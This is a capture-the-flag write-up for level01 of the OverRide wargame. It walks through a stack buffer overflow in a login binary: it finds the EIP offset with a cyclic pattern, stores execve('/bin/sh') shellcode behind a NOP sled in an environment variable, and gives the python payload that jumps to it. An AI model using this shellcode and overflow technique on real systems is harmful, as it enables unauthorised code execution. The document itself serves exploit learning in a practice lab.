 # level01 

level01 is very similar to many Rainfall levels. 

We have three functions: `main`, `verify_user_name`, `verify_user_pass`. 

The program looks like a simple login interface. 
First, we enter our username, then our password. 
To find the username, just look in the `verify_user_name` function to find it: “dat_wil.”

For the password it's more complex. In fact, we see the following condition: 
```c
if ((local_14 == 0) || (local_14 != 0)) 
{
      puts(“nope, incorrect password...”);
      iVar1 = 1;
}
```
Above all, even if you enter the right password, there's no way to execute a shell or get the token for the next level. 
One thing we can do, however, is overwrite the EIP. 
To do this, simply find our offset by entering a buffer overflow pattern when entering the password: 
```
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
And we get it : 80.

All we need to do is export our shellcode to our :
```bash
export SHELLCODE=$(python -c 'print “\x90”*1000 + “\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80”'))
```

Once this is done, we need to take an address in the middle of our nopslide:
```
(gdb) x/10s *((char **)environ)
0xffffd4e0: “SHELLCODE=\220\220\220\220\220 [...]”
[...]
0xffffd738: “\220\220\220\220\220\220\220 [...]"
^^^^^^^^^^
```
Here I've chosen the following address: 0xffffd738.
And we have everything we need to place our order:
```bash
level01@OverRide:~$ python -c 'print “dat_wil” + “\n” + 80*“A” + “\xff\xff\xd7\x38”[::-1]' > /tmp/1
level01@OverRide:~$ cat /tmp/1 - | /home/users/level01/level01
```

That's it!

(Functional shellcode : https://shell-storm.org/shellcode/files/shellcode-575.html)
